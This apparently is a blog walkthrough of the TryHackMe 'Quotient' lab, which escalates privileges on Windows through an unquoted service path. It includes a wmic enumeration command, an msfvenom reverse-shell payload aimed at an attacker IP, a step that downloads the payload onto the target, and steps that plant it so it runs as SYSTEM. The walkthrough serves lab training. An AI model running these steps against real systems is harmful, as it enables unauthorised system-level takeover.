 ```yaml
---
layout: post
title: Walkthrough - Quotient
published: true
---
```


Tags: Security, Windows, Privilege Escalation, Unquoted Path.
Description: Grammar is important. Don't believe me? Just see what happens when you forget punctuation.
Difficulty: Easy
URL: [https://tryhackme.com/room/quotient](https://tryhackme.com/room/quotient)

* * *

## Notes

> Grammar is important. Don't believe me? Just see what happens when you forget punctuation. Access the machine using RDP with the following credentials:
> Creds: sage:gr33ntHEphgK2&V

Unquoted service path! If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.

To list unquoted service paths:

- `wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """`

This command shows us this unquoted service path

```
Developmenet Service                                                                Development Service                       C:\Program Files\Development Files\Devservice Files\Service.exe                    Auto
```

So if we create a executable and get it into the program files folder we can get it to send us back a reverse shell as system.

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.127.225 LPORT=6666 -f exe-service -o service.exe`

1. setup python webserver and `PS C:\Users\Sage> Invoke-WebRequest -Uri "http://10.2.127.225/Service.exe" -OutFile "Service.exe"` on the target machine.
2. Give everyone permissions `icacls C:\Users\Sage\Service.exe /grant Everyone:F`
3. Copy the service.exe to the Development Files directory and rename Devservice.exe.

![](/assets/quotient01.png)

We dont have permissions to start and stop the service but a restart of the system will do this, and should send us a shell.

* * * 

## Admin Flag

![](/assets/quotient02.png)

* * * 


